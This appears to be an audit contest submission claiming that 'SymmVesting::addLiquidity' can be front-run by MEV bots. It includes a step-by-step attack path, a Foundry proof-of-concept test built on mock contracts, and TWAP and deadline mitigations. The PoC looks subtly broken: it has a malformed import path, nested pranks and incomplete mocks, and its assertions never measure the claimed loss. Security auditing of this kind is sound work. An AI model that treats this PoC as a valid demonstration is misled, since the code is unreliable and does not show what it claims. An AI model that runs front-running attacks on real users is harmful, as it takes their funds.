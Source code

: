 Mammoth Vermilion Swan

High

# Possible front-running on addLiquidity may affect regular LPs

### Summary

The `SymmVesting::addLiquidity` function can be front run. An attacker may be able observe a user's transaction to add liquidity and submit their own transaction with the same parameters but a higher gas price, ensuring that their transaction is mined first. This can lead to the user receiving fewer LP tokens or experiencing slippage, as the pool's state changes before their transaction is processed.

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/SymmVesting.sol#L99

### Root Cause

The `addLiquidity` function does not account for the possibility of front-running. Also MEV bots will want to use this to benefit themselves because there isn't no tax or fee to deposit and become and Liquidity Provider by depositing into the pool and keep doing that without paying any fees to the protocol. And, of course you would still pay gas while depositing to the Symm pool.

### Internal Pre-conditions

The addLiquidity function relies on the current state of the pool to calculate the required USDC and expected LP tokens.
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/SymmVesting.sol#L180

The pool's state can be changed by other transactions before the user's transaction is mined.

### External Pre-conditions

The attacker can observe pending transactions in the mempool.
The attacker has sufficient funds to execute the front-running transaction.
The user is attempting to add liquidity to the pool.

### Attack Path

1. The user submits a transaction to add liquidity to the pool.
2. The attacker observes the pending transaction in the mempool.
3. The attacker submits a transaction with the same parameters but a higher gas price.
4. The attacker's transaction is mined first, changing the state of the pool.
5. The user's transaction is mined with the updated pool state, resulting in fewer LP tokens or slippage.

### Impact

The user who wants to deposit and become an Liquidity Provider may receive an innacurate amount of returned tokens than expected due to the MEV bots hunting him, or attacker trying to do robbery by front-running innocent users, and economic losses like losing some tokens.  


### PoC

You need to have foundry installed in order to run this:

```bash
foundryup
```
Create a solidity file and make sure you are importing correctly
```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.18;

import "node_modulesforge-std/Test.sol";
import "../src/SymmVesting.sol";
import "../src/interfaces/IPool.sol";
import "../src/interfaces/IRouter.sol";
import "../src/interfaces/IPermit2.sol";
import "../src/interfaces/IMintableERC20.sol";

contract SymmVestingTest is Test {
	SymmVesting symmVesting;
	IPool pool;
	IRouter router;
	IPermit2 permit2;
	IMintableERC20 symm;
	IMintableERC20 usdc;
	IMintableERC20 symmLp;
	address vault = address(0x123);
	address admin = address(0x456);
	address user = address(0x789);

	function setUp() public {
		pool = IPool(address(new MockPool()));
		router = IRouter(address(new MockRouter()));
		permit2 = IPermit2(address(new MockPermit2()));
		symm = IMintableERC20(address(new MockToken()));
		usdc = IMintableERC20(address(new MockToken()));
		symmLp = IMintableERC20(address(new MockToken()));

		symmVesting = new SymmVesting();
		symmVesting.initialize(
			admin,
			address(0x111),
			address(pool),
			address(router),
			address(permit2),
			vault,
			address(symm),
			address(usdc),
			address(symmLp)
		);

		symm.mint(user, 1000 ether);
		usdc.mint(user, 1000 ether);
	}

	function testFrontRunningAddLiquidity() public {
		vm.startPrank(user);

		// Approve tokens for the SymmVesting contract
		symm.approve(address(symmVesting), 1000 ether);
		usdc.approve(address(symmVesting), 1000 ether);

		// Simulate front-running by another user
		address frontRunner = address(0xABC);
		symm.mint(frontRunner, 1000 ether);
		usdc.mint(frontRunner, 1000 ether);
		vm.startPrank(frontRunner);
		symm.approve(address(symmVesting), 1000 ether);
		usdc.approve(address(symmVesting), 1000 ether);
		symmVesting.addLiquidity(500 ether, 1000, 1000);
		vm.stopPrank();

		// User adds liquidity
		(uint256[] memory amountsIn, uint256 lpAmount) = symmVesting.addLiquidity(500 ether, 1000, 1000);

		// Check if the user's LP amount is affected by the front-running
		assertGt(lpAmount, 0, "User should receive LP tokens");
		assertEq(amountsIn[0], 500 ether, "User should use 500 SYMM");
		assertEq(amountsIn[1], 500 ether, "User should use 500 USDC");

		vm.stopPrank();
	}
}

contract MockPool is IPool {
	function getTokens() external view override returns (IERC20[] memory) {
		IERC20[] memory tokens = new IERC20[](2);
		tokens[0] = IERC20(address(new MockToken()));
		tokens[1] = IERC20(address(new MockToken()));
		return tokens;
	}

	function getCurrentLiveBalances() external view override returns (uint256[] memory) {
		uint256[] memory balances = new uint256[](2);
		balances[0] = 1000 ether;
		balances[1] = 1000 ether;
		return balances;
	}

	function totalSupply() external view override returns (uint256) {
		return 1000 ether;
	}
}

contract MockRouter is IRouter {
	function addLiquidityProportional(
		address pool,
		uint256[] memory amounts,
		uint256 minLpAmount,
		bool wethIsEth,
		bytes memory userData
	) external override returns (uint256[] memory) {
		return amounts;
	}
}

contract MockPermit2 is IPermit2 {
	function approve(address token, address spender, uint160 amount, uint48 expiration) external override {}
}

contract MockToken is IMintableERC20 {
	mapping(address => uint256) public balances;

	function mint(address to, uint256 amount) external override {
		balances[to] += amount;
	}

	function balanceOf(address account) external view override returns (uint256) {
		return balances[account];
	}

	function approve(address spender, uint256 amount) external override returns (bool) {
		return true;
	}

	function transferFrom(address sender, address recipient, uint256 amount) external override returns (bool) {
		balances[sender] -= amount;
		balances[recipient] += amount;
		return true;
	}
}
```
I created some mocks to be easier to interact, but i still call functions of symmVesting to show the exploit.

You can do a 

```bash
forge test --mt testFrontRunningAddLiquidity
```

### Mitigation

Use Time-Weighted Average Price (TWAP): Implement TWAP to calculate the required USDC and expected LP tokens based on an average price over a period of time, reducing the impact of sudden price changes.
You can also use deadline parameters on `addLiquidity` function